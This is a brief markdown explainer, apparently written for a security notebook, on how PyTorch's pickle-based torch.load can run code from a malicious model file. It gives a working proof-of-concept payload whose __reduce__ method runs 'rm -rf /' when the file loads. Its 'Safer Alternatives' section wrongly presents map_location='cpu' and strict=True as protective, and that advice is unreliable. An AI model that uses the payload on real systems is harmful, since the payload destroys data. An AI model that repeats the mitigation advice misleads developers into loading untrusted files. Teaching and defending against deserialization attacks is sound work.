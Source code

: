 # Pickle Deserialization and Unsafe Model Loading

## Background

Most PyTorch and Hugging Face models are saved and loaded via `torch.save()` and `torch.load()`. These functions use Python's `pickle` module — a **known unsafe format** for untrusted inputs.

## Exploitable Pattern

```python
import torch
model = torch.load("malicious_model.pt")  # May execute arbitrary code!
```

If `malicious_model.pt` was crafted with embedded pickle payloads, loading it can execute arbitrary Python code **before the model even loads**.

## Real-World Exploit Vectors

* **Malicious Pickle Payloads**\
  Custom classes with `__reduce__()` or `__setstate__()` can trigger code on load.
* **Remote Model Fetching**\
  Downloading unverified `.pt`, `.bin`, or `.pkl` files from GitHub or HF Hub may introduce serialized malware.
* **Supply Chain Poisoning**\
  Package `weights.pt` bundled in a pip installable repo or `setup.py` tarball can carry embedded backdoors.

## Attack Example (Simplified)

```python
class Payload:
    def __reduce__(self):
        import os
        return (os.system, ("rm -rf /",))

import pickle
with open("exploit.pt", "wb") as f:
    pickle.dump(Payload(), f)
```

Loading this file with `torch.load("exploit.pt")` will execute `rm -rf /`.

## Safer Alternatives

* ✅ Use `torch.load(..., map_location='cpu')` and `strict=True`
* ✅ Prefer `torch.jit.load()` for scripted models (safer, but not bulletproof)
* ✅ Validate pickle files with a custom unpickler or restrict accepted class types

## Recommended Practice

* Never load models from untrusted sources without sandboxing
* Treat `.pt`/`.bin` files like executable binaries
* Run static analysis (e.g., `pickletools.dis` or custom AST parsers)

## Suggested Notebook Integration

* Place under “Supply Chain & Serialization Risks”
* Reference in CI/CD scanning, eval harness guardrails, and model ingestion pipelines
